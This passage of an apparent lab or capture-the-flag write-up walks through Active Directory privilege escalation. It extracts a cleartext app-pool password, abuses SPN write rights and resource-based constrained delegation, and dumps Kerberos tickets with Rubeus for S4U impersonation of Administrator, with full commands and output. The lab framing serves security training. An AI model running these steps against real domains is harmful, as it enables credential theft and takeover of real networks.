SeAuditPrivilege                          Generate security audits                                           Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

Running `WinPeas` on MS01 (the machine we have compromised - can be enumerated by running `hostname`) provides an intresting observation:

```
.
.
.
T%P%P%P%P%P%P%P%P%P%P%c% Looking AppCmd.exe                                                                                                                                              
Z%  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe                                                                                          
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe                                                                                                                       
                                                                                                                                                                                         
                                              
    user    : BULWARK\m.benson                
    pass    : ofgie903-.n!kd-                 
    type    : Application Pool                
    vdir    : NA                              
    apppool : BulwarkADM 
.
.
.
```

The cleartext password of the user `BULWARK\m.benson` retrieved from the Application Pool under which the website is running.

Listing the directories of the users that are present on `MS01`:

```
PS C:\Windows\Temp> dir C:\Users
dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/10/2024   6:10 AM                Administrator                                                         
d-----        5/10/2024   5:54 AM                backupservice$                                                        
d-----         5/8/2024   5:20 AM                m.benson                                                              
d-----         5/8/2024   5:20 AM                m.bristol                                                             
d-r---        4/24/2024  11:30 AM                Public 
```

We can see that an account `backupservice$` exists. Usually, the `$` sign at the end of the account indicates a `gMSA`. Running `schtasks` to enumerate scheduled tasks on the machine:

```
C:\inetpub\BulwarkADM\api\v2\files>schtasks
schtasks

Folder: \
TaskName                                 Next Run Time          Status         
======================================== ====================== ===============
BackupTask                               N/A                    Running
.
.
.

C:\inetpub\BulwarkADM\api\v2\files>schtasks /tn "BackupTask" /v /fo LIST
schtasks /tn "BackupTask" /v /fo LIST

Folder: \
HostName:                             MS01
TaskName:                             \BackupTask
Next Run Time:                        N/A
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        5/14/2024 11:36:14 AM
Last Result:                          267009
Author:                               BULWARK\m.benson
Task To Run:                          powershell.exe -File C:\\Users\m.benson\scripts\Backup.ps1
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          backupservice$
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

We can see that the task `BackupTask` is running under the `backupservice$` service account. It would be wise to enumerate what privileges `backupservice$` has on the domain, since service accounts are usually used to perform administrative tasks that simple domain users cannot do.

## Leveraging Constrained Delegation

### Access to modify SPN List

Since `Bloodhound` doesn't provide us with anything intresting about `backupservice`, we can manually review the service account's properties by leveraging the `AD Module` for `powershell`.

```
PS C:\inetpub\BulwarkADM\api\v2\files> Get-ADServiceAccount -Identity "backupservice" -Properties *                                                                                      
Get-ADServiceAccount -Identity "backupservice" -Properties *

.
.
.
msDS-AllowedToDelegateTo                   : {cifs/FS01}                                                                                                                                 
msDS-GroupMSAMembership                    : System.DirectoryServices.ActiveDirectorySecurity                                                                                            
msDS-ManagedPasswordId                     : {1, 0, 0, 0...}                                                                                                                             
msDS-ManagedPasswordInterval               : 30                                                                                                                                          
msDS-SupportedEncryptionTypes              : 28                                                                                                                                          
msDS-User-Account-Control-Computed         : 0                                                                                                                                           
Name                                       : backupservice
.
.
.
```

We can see that the service account has `Constrained Delegation` towards a service principal, `cifs/FS01`. The specified service principal doesn't correspond to a valid service principal on the domain. For example, if we try to identify a Computer with that name:

```
PS C:\inetpub\BulwarkADM\api\v2\files> Get-ADComputer -Identity "FS01"
Get-ADComputer -Identity "FS01"
Get-ADComputer : Cannot find an object with identity: 'FS01' under: 'DC=bulwark,DC=htb'.
At line:1 char:1
+ Get-ADComputer -Identity "FS01"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (FS01:ADComputer) [Get-ADComputer], ADIdentityNotFoundException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:Microsoft.ActiveDirectory.Management.ADIdentityNotFoundException,M 
   icrosoft.ActiveDirectory.Management.Commands.GetADComputer
```

But a computer with the name `FS02` exists:

```
PS C:\inetpub\BulwarkADM\api\v2\files> Get-ADComputer -Identity "FS02"
Get-ADComputer -Identity "FS02"


DistinguishedName : CN=FS02,CN=Computers,DC=bulwark,DC=htb
DNSHostName       : FS02.bulwark.htb
Enabled           : True
Name              : FS02
ObjectClass       : computer
ObjectGUID        : 5ebd1d74-42d9-4933-813b-981c7dabd1df
SamAccountName    : FS02$
SID               : S-1-5-21-4088429403-1159899800-2753317549-3102
UserPrincipalName :
```

Indicating that FS01 was propably an old and now deleted system. We can try to identify if a user has permissions to change the `msDS-AllowedToDelegateTo` property.

```
$acl = Get-Acl -Path "AD:\CN=backupservice,CN=Managed Service Accounts,DC=bulwark,DC=htb"

PS C:\inetpub\BulwarkADM\api\v2\files> $acl.access | Where-Object {$_.ObjectType -eq "800d94d7-b7a1-42a1-b14d-7cae1423d07f"}
```

The request returns no results, indicating that no specific permissions where set in order for a user to change the system which the service account can delegate to. If we cannot control the system which a service account can delegate to, is there a way to still leverage the constrained delegation to our advantage?

After some googling, we find this article: https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/ , which leverages privileges to modify the SPNs of a Principal itself, rather than modifying the principals which a service account can delegate to. In our specific case, if we can somehow modify the SPNs of the `FS02` computer, we could leverage the Constrained Delegation of the `backupservice$` account by adding the `cifs/FS01` SPN in the SPN list of `FS02`.

In a similar fashion as before, we can check if a user has permissions over the `ServicePrincipalName` property of `FS02`.

```
$acl = Get-Acl -Path "AD:\CN=FS02,CN=Computers,DC=bulwark,DC=htb"

PS C:\inetpub\BulwarkADM\api\v2\files> $acl.access | Where-Object {$_.ObjectType -eq "  f3a64788-5306-11d1-a9c5-0000f80367c1"}
$acl.access | Where-Object {$_.ObjectType -eq " f3a64788-5306-11d1-a9c5-0000f80367c1"}


ActiveDirectoryRights : Self
InheritanceType       : None
ObjectType            : f3a64788-5306-11d1-a9c5-0000f80367c1
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : WriteProperty
InheritanceType       : None
ObjectType            : f3a64788-5306-11d1-a9c5-0000f80367c1
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BULWARK\m.benson
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

We can see that the user `BULWARK\m.benson` has the WriteProperty towards the `Service-Principal-Name` property of `FS02`. We can use that to our advantage and write the `cifs/FS01` SPN to the list of SPNs on `FS02`.

```
C:\inetpub\BulwarkADM\api\v2\files>setspn -A cifs/FS01 FS02
setspn -A cifs/FS01 FS02
Checking domain DC=bulwark,DC=htb

Registering ServicePrincipalNames for CN=FS02,CN=Computers,DC=bulwark,DC=htb
        cifs/FS01
Updated object
```

### RBCD to the Rescue

Now, following the article mentioned before, we can use the `s4u2self + s4u2proxy` to gain a `TGS` for `FS02`. We will attempt to impersonate the `Administrator` user on `FS02`.

We first need to obtain a proof of authentication for `backupservice$`. Using `Rubeus`, we can view the cached Kerberos tickets on the machine.

```
PS C:\Windows\Temp> .\Rubeus.exe triage
.\Rubeus.exe triage

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x14346

 ----------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                     | Service                           | EndTime              |
 ----------------------------------------------------------------------------------------------------- 
 | 0x278b1 | backupservice$ @ BULWARK.HTB | krbtgt/BULWARK.HTB                | 5/14/2024 9:36:14 PM |
 | 0x3e4   | ms01$ @ BULWARK.HTB          | krbtgt/BULWARK.HTB                | 5/14/2024 9:33:55 PM |
 | 0x3e4   | ms01$ @ BULWARK.HTB          | ldap/dc01.bulwark.htb/bulwark.htb | 5/14/2024 9:33:55 PM |
 | 0x3e4   | ms01$ @ BULWARK.HTB          | GC/DC01.bulwark.htb/bulwark.htb   | 5/14/2024 9:33:55 PM |
 | 0x3e4   | ms01$ @ BULWARK.HTB          | cifs/DC01.bulwark.htb             | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | krbtgt/BULWARK.HTB                | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | HOST/FS02.BULWARK.HTB             | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | cifs/DC01.BULWARK.HTB/bulwark.htb | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | HOST/DC01.BULWARK.HTB             | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | cifs/FS02.BULWARK.HTB             | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | ldap/DC01.bulwark.htb/bulwark.htb | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | cifs/DC01.bulwark.htb             | 5/14/2024 9:33:55 PM |
 | 0x14346 | m.benson @ BULWARK.HTB       | ldap/dc01.bulwark.htb             | 5/14/2024 9:33:55 PM |
 | 0x3e7   | ms01$ @ BULWARK.HTB          | krbtgt/BULWARK.HTB                | 5/14/2024 9:33:55 PM |
 | 0x3e7   | ms01$ @ BULWARK.HTB          | cifs/DC01.bulwark.htb/bulwark.htb | 5/14/2024 9:33:55 PM |
 | 0x3e7   | ms01$ @ BULWARK.HTB          | MS01$                             | 5/14/2024 9:33:55 PM |
 | 0x3e7   | ms01$ @ BULWARK.HTB          | ldap/dc01.bulwark.htb             | 5/14/2024 9:33:55 PM |
 | 0x3e7   | ms01$ @ BULWARK.HTB          | LDAP/DC01.bulwark.htb/bulwark.htb | 5/14/2024 9:33:55 PM |
 ----------------------------------------------------------------------------------------------------- 


```

A `TGT` for the `backupservice$` exists. We proceed to dump it.

```
PS C:\Windows\Temp> .\Rubeus.exe dump /luid:0x278b1 /service:krbtgt /nowrap                                                                                                              
.\Rubeus.exe dump /luid:0x278b1 /service:krbtgt /nowrap                                                                                                                                  
                                                                                                                                                                                         
   ______        _                                                                                                                                                                       
  (_____ \      | |                                                                                                                                                                      
   _____) )_   _| |__  _____ _   _  ___                                                                                                                                                  
  |  __  /| | | |  _ \| ___ | | | |/___)                                                                                                                                                 
  | |  \ \| |_| | |_) ) ____| |_| |___ |                                                                                                                                                 
  |_|   |_|____/|____/|_____)____/(___/                                                                                                                                                  
                                                                                                                                                                                         
  v2.2.0                                                                                                                                                                                 
                                                                                                                                                                                         
           
Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x278b1
[*] Current LUID    : 0x14346

  UserName                 : backupservice$
  Domain                   : BULWARK
  LogonId                  : 0x278b1
  UserSID                  : S-1-5-21-4088429403-1159899800-2753317549-2101
  AuthenticationPackage    : Kerberos
  LogonType                : Service
  LogonTime                : 5/14/2024 11:36:14 AM
  LogonServer              : DC01
  LogonServerDNSDomain     : BULWARK.HTB
  UserPrincipalName        : backupservice$@bulwark.htb


    ServiceName              :  krbtgt/BULWARK.HTB
    ServiceRealm             :  BULWARK.HTB
    UserName                 :  backupservice$
    UserRealm                :  BULWARK.HTB
    StartTime                :  5/14/2024 11:36:14 AM
    EndTime                  :  5/14/2024 9:36:14 PM
    RenewTill                :  5/21/2024 11:36:14 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  yDyyCxKqt+G5Qqa6NBji26600qRBWwjBq34ULvJNZDg=
    Base64EncodedTicket   :

      doIFwDCCBbygAwIBBaEDAgEWooIEwjCCBL5hggS6MIIEtqADAgEFoQ0bC0JVTFdBUksuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtCVUxXQVJLLkhUQqOCBHwwggR4oAMCARKhAwIBAqKCBGoEggRm8VoCajUSjJrJXx9cAOYiAyZwo8euRlrUb5s0Xh8DdTc8ncZ40breZElhsslJfHCVpx72+/efnwnssQ6752KP97C6/SC79AWSt1fvj2x3RWRCIiEN/dYM22waNwUGTx1sq5+nVi3z5FrjVP/HTnHIDppPvul9Cx1VK2f6ZZ7w9AG3azwNK+Rp1Kr6gO8QlTaicFUcQLZd1qqOkUfpsk/WwBxslFpLHYX5/BAYLhoUr5g0HjcJ1QNXQb+hls0nGKwybj4m173nOfmEPTin+7qW0ONLDlN/sNQmVjDItHL3OX6FdwP/G4RNa2hKY+o5RFNxXPan8MSbX3dr0003IJq6tikDLdg+D3uL8CR/SCDWikvRPEqbASFYxuTA8PqAHj872ry2xCgsRtoCw4WK67JztjgwTi8GuhW1/BSFlZxmaU9/64XWYJyqtVLs1eozVGloqoAu0eyCGFoVx0coMph1gilM/uLyBdQaPnXAAANjsqL4ZFxBE4O+unqzAr8zHe38v3yGHFx+AKluchZa7CqY/72prOtnUCqg2MbQcWri12Tfnao7FUFVhSUcfbZUEHK2LvgFW+Lhiu2EPor6gFyHMcLslA88L6snwf0tltG0QkQe1ssvpcoYsQmMXtmsN2GFFKPFNfNSJokSPvc2sJEz0kPCLes1Z7E9oeXSTJ2mU268UDqsQGvv7oQM2Mn/0P47yv0eXAqWh97q7p8t6CBFvQNpXYQ97Xr6S5owYl9r1FZIYcd/HR7Xh3A7PmWGMy1LfqVu55ADKq+yEw+vwwEfiVA+m1z63KGjSBjaO2w2XSeE/kKP/csR0a+58xX56jwViTSjS/1oC8SEB+PyfCMoZ3j3rMjm22TaXtPgFadH9VqG9LOswPfwoqdGW+KtjURA9W2P1bslhUpVbEW6QB+nAsXE4Qr6UdfDbLEdH9COYA9LXWOSv87kg24CkAxk6WkOR25jJGJRowREknefYUjN51K9veV5yA2iKqwZY92D7SJ1xXWG8FIAAoL/u7aW3RkElg/jeLfWF8DaLCEtkuN+nLkbCDmr7MJy4T9zo8n8Uc6xOVjjDicoq38RY27eqiJ6VKKacBFu5J+7sdksjzoj2hKmc02pEqee693pnIKCrilnplLonXNdALgguwzVvv1QhL/i3BkOZ6VGHSDeCClPhnppICKlftFCqIudlgbEa1HTndXvGokkLpOBo/dgSYEfTbQ944QR8qbHrogyMIHhlGe9JRATEMB7iO4UfUG333w/7KVgcBjldyGv8LuwqMp4zAWH3n6ApHHyQtqlE+Bh9vmAv9sS2X8A9F4z9nUcETnapfZLtItTK9AjwjsvXSZ+khNr5Uwy9basQen8tQLO+gfFXRJpIxm7MQTk5o4P2DN34KWs3n3iyg7bMm4PNMzfLW8u4VwE5BlujqTNTOT0tsIaLuwxkT7j38WaPAmQRUOXq6/P+SVw565IuACgUlAqJSTeYj8zNuI3C7/+ROJq+YToBXjvlaOB6TCB5qADAgEAooHeBIHbfYHYMIHVoIHSMIHPMIHMoCswKaADAgESoSIEIMg8sgsSqrfhuUKmujQY4tuutNKkQVsIwat+FC7yTWQ4oQ0bC0JVTFdBUksuSFRCohswGaADAgEBoRIwEBsOYmFja3Vwc2VydmljZSSjBwMFAEDhAAClERgPMjAyNDA1MTQxODM2MTRaphEYDzIwMjQwNTE1MDQzNjE0WqcRGA8yMDI0MDUyMTE4MzYxNFqoDRsLQlVMV0FSSy5IVEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC0JVTFdBUksuSFRC


```

```
PS C:\Windows\Temp> .\Rubeus.exe s4u /domain:bulwark.htb /user:backupservice$ /impersonateuser:administrator /msdsspn:"cifs/FS01" /ticket:doIFwDCCBbygAwIBBaEDAgEWooIEwjCCBL5hggS6MIIEtqA
DAgEFoQ0bC0JVTFdBUksuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtCVUxXQVJLLkhUQqOCBHwwggR4oAMCARKhAwIBAqKCBGoEggRm8VoCajUSjJrJXx9cAOYiAyZwo8euRlrUb5s0Xh8DdTc8ncZ40breZElhsslJfHCVpx72+/efnwnssQ67
52KP97C6/SC79AWSt1fvj2x3RWRCIiEN/dYM22waNwUGTx1sq5+nVi3z5FrjVP/HTnHIDppPvul9Cx1VK2f6ZZ7w9AG3azwNK+Rp1Kr6gO8QlTaicFUcQLZd1qqOkUfpsk/WwBxslFpLHYX5/BAYLhoUr5g0HjcJ1QNXQb+hls0nGKwybj4m173nO
fmEPTin+7qW0ONLDlN/sNQmVjDItHL3OX6FdwP/G4RNa2hKY+o5RFNxXPan8MSbX3dr0003IJq6tikDLdg+D3uL8CR/SCDWikvRPEqbASFYxuTA8PqAHj872ry2xCgsRtoCw4WK67JztjgwTi8GuhW1/BSFlZxmaU9/64XWYJyqtVLs1eozVGloqo
Au0eyCGFoVx0coMph1gilM/uLyBdQaPnXAAANjsqL4ZFxBE4O+unqzAr8zHe38v3yGHFx+AKluchZa7CqY/72prOtnUCqg2MbQcWri12Tfnao7FUFVhSUcfbZUEHK2LvgFW+Lhiu2EPor6gFyHMcLslA88L6snwf0tltG0QkQe1ssvpcoYsQmMXtm
sN2GFFKPFNfNSJokSPvc2sJEz0kPCLes1Z7E9oeXSTJ2mU268UDqsQGvv7oQM2Mn/0P47yv0eXAqWh97q7p8t6CBFvQNpXYQ97Xr6S5owYl9r1FZIYcd/HR7Xh3A7PmWGMy1LfqVu55ADKq+yEw+vwwEfiVA+m1z63KGjSBjaO2w2XSeE/kKP/csR
0a+58xX56jwViTSjS/1oC8SEB+PyfCMoZ3j3rMjm22TaXtPgFadH9VqG9LOswPfwoqdGW+KtjURA9W2P1bslhUpVbEW6QB+nAsXE4Qr6UdfDbLEdH9COYA9LXWOSv87kg24CkAxk6WkOR25jJGJRowREknefYUjN51K9veV5yA2iKqwZY92D7SJ1x
XWG8FIAAoL/u7aW3RkElg/jeLfWF8DaLCEtkuN+nLkbCDmr7MJy4T9zo8n8Uc6xOVjjDicoq38RY27eqiJ6VKKacBFu5J+7sdksjzoj2hKmc02pEqee693pnIKCrilnplLonXNdALgguwzVvv1QhL/i3BkOZ6VGHSDeCClPhnppICKlftFCqIudlg
bEa1HTndXvGokkLpOBo/dgSYEfTbQ944QR8qbHrogyMIHhlGe9JRATEMB7iO4UfUG333w/7KVgcBjldyGv8LuwqMp4zAWH3n6ApHHyQtqlE+Bh9vmAv9sS2X8A9F4z9nUcETnapfZLtItTK9AjwjsvXSZ+khNr5Uwy9basQen8tQLO+gfFXRJpIxm
7MQTk5o4P2DN34KWs3n3iyg7bMm4PNMzfLW8u4VwE5BlujqTNTOT0tsIaLuwxkT7j38WaPAmQRUOXq6/P+SVw565IuACgUlAqJSTeYj8zNuI3C7/+ROJq+YToBXjvlaOB6TCB5qADAgEAooHeBIHbfYHYMIHVoIHSMIHPMIHMoCswKaADAgESoSIE
IMg8sgsSqrfhuUKmujQY4tuutNKkQVsIwat+FC7yTWQ4oQ0bC0JVTFdBUksuSFRCohswGaADAgEBoRIwEBsOYmFja3Vwc2VydmljZSSjBwMFAEDhAAClERgPMjAyNDA1MTQxODM2MTRaphEYDzIwMjQwNTE1MDQzNjE0WqcRGA8yMDI0MDUyMTE4M
zYxNFqoDRsLQlVMV0FSSy5IVEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC0JVTFdBUksuSFRC /nowrap                                                                                                          
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'backupservice$@BULWARK.HTB'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[*] Sending S4U2self request to 192.168.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'backupservice$@BULWARK.HTB'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'administrator' to target SPN 'cifs/FS01'
[*] Building S4U2proxy request for service: 'cifs/FS01'
[*] Using domain controller: DC01.bulwark.htb (192.168.2.1)
[*] Sending S4U2proxy request to domain controller 192.168.2.1:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION


```

We are presented with a KDC error. Researching how Constrained Delegation works, we are presented with this page https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained . As we can see here, there are two senarios on how we can leverage `S4U2Self and S42UProxy` with constrained delegation: one with `Protocol Transition` and one without. The direct method we tried requires the service account to have `Protocol Transition` enabled. Using `powershell`, we can enumerate if the service account has `Protocol Transition` enabled.

```
PS C:\Windows\Temp> $uac = Get-ADServiceAccount -Identity "backupservice" -Properties userAccountControl

PS C:\Windows\Temp> $flag = [System.Convert]::ToString($uac.userAccountControl, 2).PadLeft(32, '0')

PS C:\Windows\Temp> $flag[8] -eq '1'
False
```

`backupservice$` does not have `Protocol Transition` enabled, so the method we used won't work. As per the same article, there are two methods to leverage constrained delegation without protocol transition. One of them , leverages `Resource-Based Constrained Delegation` on the service account. If we control a principal that is enabled for `RBCD` towards the service account, we can request a forwardable ST for a user to itself, and then use this ticket to perform the s4u chain in order to gain a service ticket towards `cifs/FS01`.

We proceed to enumerate if the `msDS-AllowedToActOnBehalfOfOtherIdentity` is set for `backupservice`.

```
PS C:\Windows\Temp> Get-ADServiceAccount -Identity "backupservice" -Properties PrincipalsAllowedToDelegateToAccount
Get-ADServiceAccount -Identity "backupservice" -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=backupservice,CN=Managed Service Accounts,DC=bulwark,DC=htb
Enabled                              : True
Name                                 : backupservice
ObjectClass                          : msDS-GroupManagedServiceAccount
ObjectGUID                           : ff46ab88-eedb-40c7-b021-aaffd1668761
PrincipalsAllowedToDelegateToAccount : {}
SamAccountName                       : backupservice$
SID                                  : S-1-5-21-4088429403-1159899800-2753317549-2101
UserPrincipalName                    : 


```

Since no principal is set, we can check if a user has access to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` for `backupservice`.

```
PS C:\Windows\Temp> $acl = Get-Acl -Path "AD:\CN=backupservice,CN=Managed Service Accounts,DC=bulwark,DC=htb"
$acl = Get-Acl -Path "AD:\CN=backupservice,CN=Managed Service Accounts,DC=bulwark,DC=htb"

PS C:\Windows\Temp> $acl.access | Where-Object {$_.ObjectType -eq " 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79"}
$acl.access | Where-Object {$_.ObjectType -eq " 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79"}


ActiveDirectoryRights : WriteProperty
InheritanceType       : None
ObjectType            : 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : BULWARK\m.benson
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : ReadProperty, WriteProperty
InheritanceType       : All
ObjectType            : 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : NT AUTHORITY\SELF
IsInherited           : True
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None


```

The user `BULWARK\m.benson` can write the property for the service account. We proceed to add `BULWARK\m.benson` to the `PrincipalsAllowedToDelegateToAccount` property, since it is the only account we have access to so far.

```
PS C:\Windows\Temp> Set-ADServiceAccount backupservice$ -PrincipalsAllowedToDelegateToAccount (Get-ADUser m.benson)
Set-ADServiceAccount backupservice$ -PrincipalsAllowedToDelegateToAccount (Get-ADUser m.benson)

PS C:\Windows\Temp> Get-ADServiceAccount -Identity "backupservice" -Properties PrincipalsAllowedToDelegateToAccount
Get-ADServiceAccount -Identity "backupservice" -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=backupservice,CN=Managed Service Accounts,DC=bulwark,DC=htb
Enabled                              : True
Name                                 : backupservice
ObjectClass                          : msDS-GroupManagedServiceAccount
ObjectGUID                           : ff46ab88-eedb-40c7-b021-aaffd1668761
PrincipalsAllowedToDelegateToAccount : {CN=Mark,CN=Users,DC=bulwark,DC=htb}
SamAccountName                       : backupservice$
SID                                  : S-1-5-21-4088429403-1159899800-2753317549-2101
UserPrincipalName                    : 

```

Now we can perform an `s4u` chain towards the `backupservice` in order to get a forwardable ST to use. To prove authentication as the `m.benson` user, we can either provide the user's password or dump the user's `TGT` and use it.

```
C:\Windows\Temp>.\Rubeus.exe hash /user:m.benson /domain:bulwark.htb /password:"ofgie903-.n!kd-"
.\Rubeus.exe hash /user:m.benson /domain:bulwark.htb /password:"ofgie903-.n!kd-"

   ______        _                      
